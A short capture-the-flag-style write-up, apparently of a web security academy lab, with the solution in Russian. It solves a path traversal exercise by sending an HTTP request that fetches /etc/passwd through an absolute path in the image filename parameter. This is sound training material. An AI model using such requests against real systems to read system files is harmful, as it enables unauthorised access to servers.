 # Lab: File path traversal, traversal sequences blocked with absolute path bypass
PRACTITIONER

This lab contains a path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file.

## Решение
Попытки обратиться к "/etc/passwd" через родительские каталоги не принесли успеха, но обращение по прямому пути работает:
```
GET /image?filename=/etc/passwd HTTP/2
Host: 0af4000304b721d280feb292007d00d4.web-security-academy.net
Cookie: session=a7NzWUQDQFP6CP4pS4XH85fhC8nVC4v0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af4000304b721d280feb292007d00d4.web-security-academy.net/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```
Задание выполнено.
